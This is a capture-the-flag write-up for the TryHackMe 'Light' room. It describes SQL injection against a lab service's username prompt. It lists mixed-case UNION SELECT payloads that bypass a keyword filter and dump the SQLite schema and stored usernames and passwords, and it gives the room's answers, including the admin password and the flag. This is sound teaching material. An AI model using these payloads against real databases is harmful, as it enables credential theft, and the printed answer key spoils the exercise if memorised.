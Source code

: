 # 💡 TryHackMe: Light – SQL Injection Writeup

[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-LightRoom-red?logo=tryhackme&style=flat-square)](https://tryhackme.com/room/lightroom)
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-brightgreen?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3Hax0r)

> **Category:** Databases / SQLi  
> **Difficulty:** Beginner → Intermediate  
> **Target IP:** `MACHINE_IP`  
> **Port:** `1337`  
> **Protocol:** Custom TCP (textbaserad tjänst)

---

## 🧠 Challenge Description

> I am working on a database application called Light! Would you like to try it out?  
> If so, the application is running on **port 1337**. You can connect to it using:  
> `nc MACHINE_IP 1337`  
> You can use the username `smokey` in order to get started.  
>  
> **Note:** Please allow the service 2 - 3 minutes to fully start before connecting to it.

---

## 📝 Questions

1. ❓ What is the admin username?  
2. ❓ What is the password to the username mentioned in question 1?  
3. 🏁 What is the flag?

---

## ⚙️ Initial Access

We connect using netcat:

```bash
nc 10.10.216.90 1337
```

Entering `smokey` as the username results in the application auto-filling a password and looping the login.

![Login prompt](https://jull3.se/thm/writeup/nc_login.png)

No output or shell is returned, so we suspect some form of **SQL injection** might be possible via the username prompt.

---

## 💉 SQL Injection Discovery

We test a basic `'` payload and receive an error indicating broken syntax.  
By carefully experimenting with **case-bypassed UNION SELECT** payloads (to avoid keyword blacklists), we find working SQLi vectors.

Eventually, we identify that payloads like the following yield valid responses:

### 🔎 Payloads Used:

```sql
' UniOn SeLeCt sqlite_version() '
' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
' UniOn SeLeCt group_concat(username) FROM usertable '
' UniOn SeLeCt group_concat(password) FROM usertable '
' UniOn SeLeCt group_concat(username) FROM admintable '
' UniOn SeLeCt group_concat(password) FROM admintable '
```

We automate this process using a Python script (`sqli.py` in this repo).

### 🖼️ SQLi Output Sample:

![SQLi Payload Output](https://jull3.se/thm/writeup/sqli.png)

---

## ✅ Answers

| Question | Answer |
|----------|--------|
| **Admin username** | `TryHackMeAdmin` |
| **Admin password** | `mamZtAuMlrsEy5bp6q17` |
| **Flag**           | `THM{SQLit3_InJ3cTion_is_SimplE_nO?}` |

---

## 🧠 Notes

- Backend DBMS: **SQLite 3.31.1**
- Application logic: `SELECT * FROM users WHERE username = '{input}' LIMIT 30;`
- Vulnerable input: **username prompt**
- Blacklist bypass: mixed-case `UniOn SeLeCt`
- Comment symbols like `--`, `#` were **filtered**, so `' ... '` was used to close queries cleanly

---

## 📜 Script (optional)

We used a Python socket script (`sqli.py`) to automate sending payloads and capturing responses.

---

🧠 Happy hacking,  
🧢 [Jull3Hax0r](https://jull3.se)
